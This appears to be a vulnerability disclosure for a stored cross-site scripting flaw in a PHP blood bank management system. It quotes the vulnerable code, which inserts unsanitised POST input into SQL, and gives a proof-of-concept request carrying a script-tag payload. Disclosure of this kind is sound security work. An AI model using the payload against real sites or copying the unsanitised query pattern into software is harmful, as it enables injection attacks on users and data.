 # blood-bank-system-in-php-XSS-2

[Blood Bank System In PHP With Source Code - Source Code & Projects (code-projects.org)](https://code-projects.org/blood-bank-system-in-php-with-source-code/)

## NAME OF AFFECTED PRODUCT(S)

**blood-bank-system-in-php**

## Vendor Homepage

https://code-projects.org/blood-bank-system-in-php-with-source-code/

##  **Manufacturers sites**

https://code-projects.org/

# AFFECTED  VERSION(S)

## Vulnerable File

o-.php ，blooddetails.php

## VERSION(S)

-  v1.0

## Software Link

https://download.code-projects.org/details/09f1f26e-072d-4fec-bd3b-974076ee162c

# PROBLEM TYPE

## Vulnerability Type

XSS

## Root Cause

o-.php,blooddetails.php

## Impact

## **Description of the vulnerability**

XSS code can be inserted into the database at the o-php function, and then accessing blood details. php can execute XSS code, causing XSS attacks.

## o-.php

GET the Bloodname parameter and insert it into the database.

```
$Bloodname=$_POST['bloodname'];
$availability=$_POST['Availibility'];
$unit=$_POST['unit'];
$hos=$_POST['hospital'];
$reg="insert into bloodgroup (bloodid, Bloodname, Availibility,unit,hospital) values ('','$Bloodname','$availability','$unit','$hos')";
mysqli_query($con,$reg);
```

## bbms.php	

Retrieve the value of Bloodname and echo the content to the foreground. If blood name is xss code, it will cause code execution.

![image-20240919113541222](https://github.com/user-attachments/assets/433969a7-dc6f-4765-b20e-551fed457f69)



## **Vulnerability recurrence**

### **POC**

Just need to execute the POC and insert the xss code into the database

```
http://bloodbankmgmtsystem/admin/blood/update/o-.php
```

```
bloodname=</td><script>alert("xss2");</script><td>&Availibility=yes&unit=1&hospital=1
```

![image-20240921002639850](https://github.com/user-attachments/assets/7a840b06-4b45-410d-b9d2-9f564c8c7070)

### Result

We can trigger the XSS vulnerability that was just inserted by accessing  blooddetails.php. 

```
http://bloodbankmgmtsystem/blooddetails.php
```

![image-20240921002654301](https://github.com/user-attachments/assets/c8349c75-2734-499e-bdbd-43d0751b3893)